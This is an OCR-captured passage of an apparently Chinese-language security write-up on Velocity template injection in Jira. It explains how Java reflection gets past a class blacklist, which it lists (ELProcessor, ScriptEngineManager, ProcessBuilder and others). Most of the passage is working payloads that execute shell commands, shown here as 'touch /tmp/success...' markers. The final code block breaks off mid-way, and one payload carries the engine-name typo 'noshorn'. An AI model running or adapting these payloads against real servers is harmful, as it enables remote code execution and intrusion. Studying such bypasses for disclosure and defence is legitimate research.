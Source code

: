 所以当我们使用新生成的类的时候，缓存中只有 Class 类，所以在此情况下只有注入 Object Bean 对象才可以使用调用相应的方法。所以反射的基础知识引出来了，如何通过反射创建新的类事例。1、新 Object 对象的生成在模版注入里面通过类的 newInstance 可以。可惜 Runtime 的构造方法是私有的，只能通过 getRuntime 来获取实例对象。2、所以我们使用 Constructor 来获取构造器，并将访问的属性设置为 true。

```bash
通过反射创建新的类实例的两种方式：

Class.newInstance() 
Constructor.newInstance() 

所以 runtime 类我们可以改写成：
    #set($x=$i18n.getClass())
    #set($runcls=$x.class.forName("java.lang.Runtime"))
    #set($runcon=$runcls.getDeclaredConstructor())
    $runcon.setAccessible(true)
    $runcon.newInstance().exec("touch /tmp/successRt")
```

所以我们可以采用其他的方式进行注入，如 spel，因为 jira 是 tomcat 服务启动的，也可以采用 scriptengine 的方式。  
黑名单类

```bash
webwork.util.ValueStack,\
javax.el.ELProcessor,\
javax.script.ScriptEngineManager,\
java.lang.ProcessBuilder,\
javax.el.ImportHandler,\
javax.el.ELManager
```

这里列举了以上黑名单类在 vm 模版引擎中的利用

模版引擎的基本语法参考  
[https://www.cnblogs.com/daijun/p/6133430.html](https://www.cnblogs.com/daijun/p/6133430.html)

```bash
ELProcessor:
    #set($x=$i18n.getClass())
    #set($el=$x.class.forName("javax.el.ELProcessor").newInstance())
    $el.eval('Runtime.getRuntime().exec("touch /tmp/successELProcessor")')


ScriptEngineManager:
noshorn:
    #set($x=$i18n.getClass())
    #set($semcls=$x.class.forName("javax.script.ScriptEngineManager"))
    #set($sem=$semcls.newInstance())
    $sem.getEngineByName("noshorn").eval("java.lang.Runtime.getRuntime().exec('touch /tmp/successSEM\');")
javascript:
    #set($x=$i18n.getClass())
    #set($semcls=$x.class.forName("javax.script.ScriptEngineManager"))
    #set($sem=$semcls.newInstance())
    $sem.getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('touch /tmp/successSEM\');")


java.lang.ProcessBuilder:
我本来写的第一种方法，但是 newInstance 这里是不存在空的构造方法的。
    #set($x=$i18n.getClass())
    #set($pb=$x.class.forName("java.lang.ProcessBuilder").newInstance())  
    $pb.command("/bin/sh","-c","touch /tmp/successPB")
    $pb.start()

改进之后：
    #set($x=$i18n.getClass())
    #set($list=$x.class.forName("java.util.List"))
```